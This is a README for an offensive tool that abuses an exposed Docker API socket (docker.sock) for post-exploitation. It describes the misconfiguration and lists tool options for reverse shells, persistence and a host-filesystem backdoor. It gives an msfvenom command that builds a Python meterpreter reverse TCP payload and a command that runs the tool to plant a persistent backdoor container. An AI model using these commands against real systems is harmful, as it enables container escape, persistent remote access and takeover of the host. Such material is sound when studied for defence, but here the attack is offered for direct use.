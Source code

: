 # API Docker Attack
**Post-exploitation using exposed Docker API (docker.sock)**

![docker-api](https://user-images.githubusercontent.com/52386190/86634989-ebd16100-bfa8-11ea-9b32-d91ee243b50a.png)

Docker provides an API for interacting with the Docker daemon (called the [Docker Engine API](https://docs.docker.com/engine/api/)) located in `unix:///var/run/docker.sock`. Docker.sock is a Unix socket where the Docker daemon is listening. We can exploit this feature to call Docker API functions and inject privileged or malicious commands.

Example of configuration failure in docker environments:
```shell
docker run --interactive --tty --volume /var/run/docker.sock:/var/run/docker.sock <image>
```
- **Dependencies:**

```shell
pip3 install docker
apt/dnf -y install netcat
```

- **Help**

| Command | Description | 
|---|---|
| --list-containers | List all containers |
| --into | Connecting container |
| --remove | Remove container |
| --payload | Payload of reverse shell |
| --persistent | Maintain persistent connection |
| --backdoor | Backdoor for accessing the host filesystem |

- **Usage:**

> Create backdoor container as persistent reverse connection to access host filesystem

Create payload of reverse shell with [msfvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/):
```shell
msfvenom -p python/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw -o payload.py
```
Run:
```shell
DockerAPI.py --backdoor --payload payload.py --persistent
```
